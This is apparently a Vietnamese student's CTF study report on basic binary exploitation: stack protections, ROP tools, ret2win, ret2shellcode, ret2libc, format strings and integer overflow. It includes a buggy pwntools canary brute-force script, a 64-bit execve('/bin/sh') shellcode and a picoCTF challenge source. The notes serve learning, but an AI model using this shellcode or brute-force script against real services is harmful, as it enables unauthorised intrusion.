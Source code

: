 > Mục đích: Tổng hợp các kĩ thuật pwn cơ bản

# Checksec

> checksec cho ta biết các bảo vệ nào của file được bật, khi nhìn vào checksec ta có thể đoán được các kĩ thuật khai thác nào có thể không sử dụng được điều này rất qua trọng giúp chúng ta tránh mất thời gian và công sức

### Canary

- Hiểu đơn giản là canary tạo một giá trị hex, đẩy vào cuối stack (thường là trên saved rbp).
- Chức năng của nó là chống bof đến saved rip
  Để bypass được canary: có 2 cách chính

##### leak canary

ta có thể sử dụng FMT để leak giá trị canary. (printf hoặc puts)
printf nếu là fmt sẽ có trong file
ở đây ta có thể sử dụng puts để leak canary

##### Brute force Canary

Do em chưa thử cách này nên cũng chỉ dừng lại ở mức cách brute force

- Hoạt động: ta sẽ OW đến giá trị canary và ghi đè canary ta BF, nếu đúng chương trình thực hiện tiếp, nếu không chương trình sẽ lặp lại
- Nhược điểm: thường khá mất nhiều thời gian.

<details> <summary> Example 1 </summary>

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

</details>

# PIE
Được hiểu đơn giản là địa chỉ binary động, để có thể bypass, ta có thể leak một địa chỉ nào đó là địa chỉ binary, từ đó tính ngược về địa chỉ base của bin

[link về bypass PIE, Canary khá chi tiết](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)
  
 # NX
 Tạm hiểu là chống thực thi trong stack, nghĩa là đánh dấu các vùng không thể thực thi, việc này nhằm tránh việc đưa shellcode vào stack thực thi.
 Khi NX tắt, ta sẽ ưu tiên việc đưa shellcode vào stack
  
# ASLR
  Tạm hiểu là nó sẽ làm ngẫu nhiên hoá các thư viện (Libc) nhằm chống việc leak địa chỉ got plt, ngăn chặn ret@libc
 
 > Tóm lại: Nếu canary bật mà không thể leak được canary thì nó có thể là FMT IOF
  Nếu NX tắt (thông thường là bật): ta sẽ ret2shellcode
  nếu PIE, ASLR bật: ta cần phải leak địa chỉ để tính toán
___ 
# Các công cụ khai thác
* ROPgadget: ROP (Return Oriented Programming), sử dụng các gadget đã có trong chương trình để thay đổi các thanh ghi hoặc các biến trên stack nhằm kiểm soát, chuyển hướng chương trình. Các thanh ghi thường được sử dụng là rdi, rsi, rdx, rcx, r8, r9. 
  * ROPgadget thường được sử dụng để tìm địa chỉ của ret, các thanh ghi mà còn có thể tìm được địa chỉ của một số chuỗi ```ROPgadget --binary tênfile --string 'chuỗi cần tìm'
  * việc tìm chuỗi là cần thiết, hoặc là khi ta không thể dùng gets để ghi vào vùng nhớ nào đó (không có file libc)
* one_gadget: là một số gadget tồn tại trong libc, one_gadget sẽ tìm luôn những execve("/bin/sh", NULL, NULL), và điều kiện là một số thanh ghi cần NULL (có file libc)
> Lưu ý: ROPgadget thường được sử dụng để leak libc, sau đó có thể dùng one_gadget để tạo execve()
  đồng thời k nên ưu tiên leak libc, khi đã có hàm system bên trong file. có một số bài người ra đề có thể tự tạo file libc, lúc ta leak libc thì ra một file libc khác server, việc tính toán sau đó rất mất thời và cay cú.
___
  # Các kĩ thuật BOF
  ### Tràn biến
  nghĩa là ta sẽ thay đổi dữ liệu mà biến đó lưu trữ, việc cần làm của chúng ta là kiểm tra địa chỉ của biến đó, ow đến địa chỉ đó và truyền vào giá trị mà mình mong muốn
  tuy vậy, các bài tràn biến thường đi chung với những phép toán biến đổi, hoặc là giá trị cần thay đổi là số âm, số thập phân  
  Để biến đổi số thập phân sang hex em có sưu tầm được  
  ![image](https://user-images.githubusercontent.com/111769169/225925905-04d8cf4d-fb31-4131-8591-bd849d4ffd52.png)  
  Số âm sang hex  
  ![image](https://user-images.githubusercontent.com/111769169/225926621-1618b0ba-eab2-43e6-9ea0-1f67733e453f.png)  
  
  ### ret2win
  Khi canary tắt, ta có thể ow saved rip thành hàm chứa system
  Dạng này hay có lỗi xmm1 (stack không chia hết cho 8), do push khi ta nhảy vào đầu hàm do đó ta sẽ nhảy sâu hơn một xíu nữa để bỏ qua lệnh push gây lỗi
  
  ### ret2shellcode
  Khi NX tắt, ta có thể đưa shellcode vào để thực thi
  do code shellcode = asm khá khó, với một số bài cơ bản thì ta có thể sài các shellcode
  <details> <summary> 64 bit </summary>
    
    shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    
    syscall
    ''', arch='amd64'
    )
    
  </details>

  ### ret2libc
  GOT: nơi chứa địa chỉ các hàm của libc
  PLT: thực thi hàm được chứa trong GOT
  
  đầu tiên để leak libc, ta có thể sử dụng put@plt để in ra địa chỉ puts@got trên server do puts cần 1 thanh ghi rdi để thực thi
___
  # FMT
  Đối với 32bit: in dữ liệu trên stack  
64bit: 5% đầu của 5 thanh ghi, % thứ 6 là dữ liệu trên stack  
  %{n}$p, in địa chỉ trên stack vị trí thứ n  
  %{n}$c tại vị trí n, nó sẽ in ra byte nó trỏ đến (0x1234 %c sẽ là 0x34)  
  %s là nó sẽ ỉn cho đến khi găp bài 0x00  
  %{n}n đếm số lượng byte được in ra trước đó, rồi ghi vị thứ n  
  %* là pading ví dụ ```%*10$c    # tại vị trí thứ 10, chứa 0x1234``` ở đây %* có nhiệm vụ là tạo ra 0x1234 kí tự rồi %c để in ra 0x1234 kí tự.  
  
  em thấy 1 bài mà em giải khá kĩ [link](https://github.com/wan-hyhty/CTFs_competition/tree/main/utctf) sử dụng cả ret2libc, và dạng dùng con trỏ stack có sẵn để thay đổi dữ liệu (dạng này nói lí thuyết khá khó hình dung nên xem wu sẽ dễ hiểu hơn)
___ 
  # interget overflow
  dạng bài này khá khó nhận biết với những bài khó    
  ta nhớ số không dấu thì giới hạn của nó là 0xff  
  và có dấu thì giới hạn là 0x7f là dương, 0x80 trở lên là âm  
  một bài trong pico thể hiện rõ kĩ thuật IOF _em sẽ update link wu chi tiết_ ở đây là source code của bài
  
  <details> <summary> two-sum </summary>
    
```c
    #include <stdio.h>
    #include <stdlib.h>

    static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
    }
  
    int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
    }
```
    
  </details>
  
# dự định cho bài báo cáo lần 2
em sẽ tìm hiểu privilege_escalation (Leo thang đặc quyền)
  
